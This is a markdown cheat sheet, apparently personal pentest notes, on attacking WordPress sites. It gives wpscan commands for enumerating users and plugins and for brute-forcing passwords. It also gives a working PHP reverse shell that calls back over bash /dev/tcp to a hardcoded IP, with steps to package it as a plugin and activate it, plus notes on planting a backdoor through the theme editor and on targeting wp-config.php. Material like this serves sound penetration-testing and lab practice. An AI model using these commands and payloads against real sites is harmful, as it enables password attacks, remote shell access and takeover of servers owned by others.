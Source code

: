 # Wordpress Enumeration
## Checks
- Look for wordpress version
- Plugins version
- Easy access to the admin panel (Credentials reuse)

## Command
```bash
# Update the scanner
wpscan --update

# Enumerate users
wpscan --url [wordpress url] --enumerate u

# General usage
wpscan --url "url" -e "options to enumerate"

# Look for vulnerable plugins
wpscan --url http://10.10.10.88/webservices/wp/ --enumerate ap --plugins-detection aggressive
   - Voir peut être pour l'option --plugins-version-detection

# Enumeration arguments
–enumerate | -e [option(s)] Enumeration.
option :
u – usernames from id 1 to 10
u [10-20] usernames from id 10 to 20 (you must write [] chars)
p – plugins
vp – only vulnerable plugins
ap – all plugins (can take a long time)
tt – timthumbs
t – themes
vt – only vulnerable themes
at – all themes (can take a long time)

# Brute force user password
wpscan --url [wordpress url] -P [path to wordlist] -U [username to brute force] –threads [number of threads to use]
```

## Getting a reverse shell
- Injecting malicious code inside a WP_Theme
- Upload a malicious WP_Plugin

#### Injecting malicious code inside a WP_Theme (Need to be authenticated)
- Appearance
	- Editor
		- Inject a PHP backdoor (e.g: PentestMonkey)
		- Modify IP and PORT
			- Upload the file
				- Access the file to execute the PHP code


#### Upload a malicious WP_Plugin (Need to be authenticated)
1.Create a reverse shell in PHP
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'");
?>
```
2.ZIP the reverse shell
```bash
zip rev.zip reverse.php
```
3.Steps to execute the malicious Plugin
- http://10.10.10.10./wp-admin/plugins.php
	- Add New
		- Upload Plugin
			- Browse
				- Install Now
					- Activate Plugin


## Important file
- wp-config.php
